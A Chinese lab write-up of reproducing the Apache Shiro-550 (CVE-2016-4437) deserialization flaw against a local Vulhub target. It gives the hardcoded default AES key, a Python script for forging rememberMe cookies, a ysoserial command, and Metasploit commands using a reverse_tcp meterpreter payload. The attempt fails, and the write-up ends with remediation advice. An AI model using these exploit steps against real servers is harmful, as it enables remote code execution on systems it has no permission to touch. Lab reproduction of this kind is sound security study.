





# CVE‑2016‑4437 Shiro‑550 复现笔记
> 本地 Vulhub | 2026.08.25

## 漏洞说明
Shiro 1.2.4 及之前版本，`rememberMe` 使用了固定 AES 密钥：

```
kPH+bIxk5D2deZiIxcaaaA==
```
攻击者拿到密钥即可构造恶意 Cookie，服务端接收后触发反序列化，执行系统命令。漏洞核心成因：**密钥硬编码 + 反序列化漏洞**。

## 环境
| 项目 | 内容 |
|------|------|
| 攻击机 | Kali Linux |
| 靶场 | Vulhub shiro 1.2.4 |
| 靶机地址 | http://192.168.1.81:8080 |
| 工具 | Burp Suite、ysoserial、Python、Metasploit |

## 手动复现过程
### 1. 启动 docker 环境



```
cd vulhub-master/shiro/CVE-2016-4437
docker-compose up -d
```

### 2. 验证漏洞特征

访问靶场登录页面，抓包查看响应头，返回 `Set‑Cookie: rememberMe=deleteMe`，代表 `rememberMe` 功能开启，存在漏洞测试条件。



### 3. 生成恶意 Cookie

Shiro Cookie 生成流程：

1. 使用 ysoserial 生成反序列化 payload
2. AES‑CBC 加密（使用漏洞默认密钥，IV 填充 16 字节`\x00`）
3. IV 拼接密文后进行 Base64 编码

Python 加密脚本：

```Python
import base64
from Crypto.Cipher import AES

KEY = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")

def make_shiro_cookie(data):
    iv = b'\x00' * 16
    cipher = AES.new(KEY, AES.MODE_CBC, iv)
    pad_len = 16 - len(data) % 16
    data += bytes([pad_len]) * pad_len
    encrypted = cipher.encrypt(data)
    return base64.b64encode(iv + encrypted).decode()
```

生成 payload 命令：

```
java -jar ysoserial-all.jar CommonsCollections2 "id" > payload.ser
```

运行加密脚本，得到 rememberMe 的 Base64 字符串。




### 4. Burp Suite 发送恶意 Cookie

修改请求包 Cookie 字段：`rememberMe=生成的Base64字符串`，发送请求进行测试。

## 复现问题：持续返回 302 跳转


服务器响应：

```
Set-Cookie: rememberMe=deleteMe
Location: /login
```

更换多条反序列化链测试均出现相同结果：

|反序列化链|返回结果|
|---|---|
|CommonsCollections1|302 跳转，Cookie 清空|
|CommonsCollections2|302 跳转，Cookie 清空|
|CommonsBeanutils1|302 跳转，Cookie 清空|
|Jdk7u21|302 跳转，Cookie 清空|

> 现象说明：`rememberMe=deleteMe` 代表 Shiro 捕获到反序列化异常，直接丢弃 Cookie。大概率是靶场环境缺少对应依赖包，当前选用的 Gadget 链无法执行。

## Metasploit 尝试（未获取 Shell）

```
msfconsole
use exploit/multi/http/shiro_rememberme_v122
set RHOSTS 192.168.1.81
set RPORT 8080
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.81
run
```

运行后攻击失败，未能成功获取 Meterpreter 会话。



## 复盘总结

1. 已成功识别 Shiro‑550 漏洞特征，环境搭建完整；
2. 熟悉 remember‑me Cookie 完整加密流程：IV 填充‑AES 加密‑Base64 编码；
3. 反序列化链不是万能，能否执行高度依赖靶机已安装的 Jar 依赖；
4. `302跳转 + rememberMe=deleteMe` 是 Shiro 反序列化报错最典型标志；
5. 后续优化方向：更换适配该靶场版本的 Gadget 链、尝试 Shiro 扫描工具检测可用密钥与链。

## 修复建议

- 升级 Apache‑Shiro 版本至 1.2.5 及以上，移除默认硬编码密钥；
- 无法升级版本时，自定义生成随机 AES 密钥，禁止使用官方默认密钥；
- 业务不需要记住登录功能，关闭 remember‑me 选项。
